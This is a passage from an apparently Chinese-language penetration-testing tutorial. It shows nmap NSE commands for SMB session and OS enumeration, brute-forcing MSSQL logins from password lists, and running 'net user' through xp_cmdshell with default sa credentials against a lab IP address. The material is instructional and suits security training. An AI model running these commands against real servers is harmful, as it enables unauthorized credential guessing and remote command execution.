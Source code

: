 查看会话

```
nmap -n -p445 --script=smb-enum-sessions.nse --script-args=smbuser=test,smbpass=test 192.168.137.4    

```

系统信息

```
nmap -n -p445 --script=smb-os-discovery.nse --script-args=smbuser=test,smbpass=test 192.168.137.4  

```

（3）Mssql 扫描：

猜解 mssql 用户名和密码

```
nmap -p1433 --script=ms-sql-brute --script-args=userdb=/var/passwd,passdb=/var/passwd 192.168.137.4    

```

![2014060616135770347_jpg.jpg](img/img16_u22_jpg.jpg)

xp_cmdshell 执行命令 

```
nmap -p 1433 --script ms-sql-xp-cmdshell --script-args mssql.username=sa,mssql.password=sa,ms-sql-xp-cmdshell.cmd="net user" 192.168.137.4       

```

